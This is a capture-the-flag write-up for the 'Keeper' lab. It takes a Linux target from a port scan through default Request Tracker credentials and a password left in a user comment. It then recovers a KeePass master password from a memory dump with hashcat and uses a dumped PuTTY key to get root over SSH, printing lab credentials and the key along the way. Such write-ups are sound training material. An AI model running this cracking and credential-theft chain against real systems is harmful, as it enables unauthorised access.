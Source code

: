 ## Keeper

### Lab Details 

- Difficulty: Easy
- Type: Web App, KeePass, Priv Esc, Linux

#### Tasks

Q1: How many open TCP ports are listening on Keeper?
 - `nmap 10.10.11.227 -sT -p- -T4 -vv -oA nmap_keeper`
 ```
 Not shown: 65497 closed tcp ports (conn-refused)
 PORT      STATE    SERVICE     REASON
 22/tcp    open     ssh         syn-ack
 80/tcp    open     http        syn-ack
 ```
Q2: What is the default password for the default user on Request Tracker (RT)?
 - Searching on google for default user login
 - username:root
 - password:password

Q3: Besides root, what other user is in RT?
 - visit Admin -> User on the top tool bar 
 - ref image attached 
![[RT.png]]

Q4: What is the lnorgaard user's password on Keeper?
 - user password is in the comment section of the user profile
 ![[user_comment.png]]

Q5: Submit the flag located in the lnorgaard user's home directory.
 - login to target using new found username and password
 - lnorgaard:Welcome2023!

Q6: Submit the flag located in the lnorgaard user's home directory.
 - cat user.txt

Q7: What is the 2023 CVE ID for a vulnerability in KeePass that allows an attacker access to the database's master password from a memory dump?
 - searching google regarding the 2023 keepass masterkey mem dump gives results on CVE-2023-32784
 - this github repo goes into details regarding the attack -> https://github.com/vdohney/keepass-password-dumper 

Q8: What is the master password for passcodes.kdbx?
 - we need 2 files to extract the master key according to https://github.com/JorianWoltjer/keepass-dump-extractor 
 - 1. memory dump of the KeePass process 
 - 2. the .kdbx file that we want to crack

 ```  
 keepass-dump-extractor KeePass.DMP -f all > wordlist.txt
 keepass2john passwords.kdbx > passwords.kdbx.hash
 hashcat -m 13400 --username passwords.kdbx.hash wordlist.txt
 ```
 - we get `rødgrød med fløde` as the master key after running hashcat

Q9: What is the first line of the "Notes" section for the entry in the database containing a private SSH key?
 - tried to wget the passcode.kdbx and viewing it using keepass GUI however getting error 
 - install kpcli to interact with the database file via cli
 - command to view the entry is `show 0 -f` where 0 is the first entry and -f will show the password in plain.
```
kpcli:/passcodes/Network> show 0 -f

Title: keeper.htb (Ticketing Server)
Uname: root
 Pass: F4><3K0nd!
  URL: 
Notes: PuTTY-User-Key-File-3: ssh-rsa
       Encryption: none
       Comment: rsa-key-20230519
       Public-Lines: 6
       AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
       8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
       EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
       Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
       FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
       LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
       Private-Lines: 14
       AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
       oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
       kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
       f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
       VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
       UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
       OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
       in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
       SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
       09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
       xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA
       AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD
       AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
       NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
       Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0
```
Q10: Submit the flag located in the root user's home directory.
 - the file in keeper.htb is a .ppk and in order to use it to login to ssh we will need to seperate the ssh private key from it
 - we need puttygen to perform this task 
 ```
 sudo apt install putty-tools
 puttygen keeper.ppk -O private-openssh -o id_rsa
 ``` 
 - where keeper.ppk is the file that contains the note section and id_rsa is the private key we can use to login to root via ssh 
 ``` 
 ssh -i id_rsa target_ip 
 ```


#### Lesson Learned
 - Overcomplicating things, was expecting a RCE from an exploit in the web app to gain the initial foothold 
 - Try new found logins with different services on the target
